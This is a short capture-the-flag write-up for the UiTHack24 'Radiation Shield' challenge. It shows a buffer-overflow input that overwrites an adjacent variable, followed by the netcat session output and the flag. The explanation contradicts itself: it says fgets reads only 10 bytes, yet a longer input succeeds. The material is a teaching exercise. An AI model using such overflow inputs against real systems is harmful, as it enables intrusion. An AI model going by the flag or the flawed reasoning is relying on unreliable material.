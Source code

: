 # Radiation Shield

Deep within the space station "Pandora", a looming solar flare threatens the lives of the station's crew. The crew is locked out of the radiation shield controls, so you must hack into the system to increase the shield's protection to `maximum`.

`nc uithack.td.org.uit.no 9000`

[⬇️ shield.c](./shield.c) [⬇️ shield](./shield) [⬇️ libc.so.6](./libc.so.6)

# Writeup

The goal here seems to get the `shield_level` to `maximum`. When that is reached we print the flag. It asks for a input from me with `fgets` and asks for 10 bytes. But both the `shield_status` and `shield_level` are 10 bytes long.

It seems like a buffer overflow situation. When `shield_status` is the one we are writing into after 10 bytes we'll overwrite the `shield_level`. So basically send 10 characters then the value `maximum` and we should get the flag.


```bash
$ nc uithack.td.org.uit.no 9000
New shield status:
1111111111maximum
Shield status: 1111111111maximum

Shield level: maximum

UiTHack24{M4ximum_sh13ld_0verflooow}
```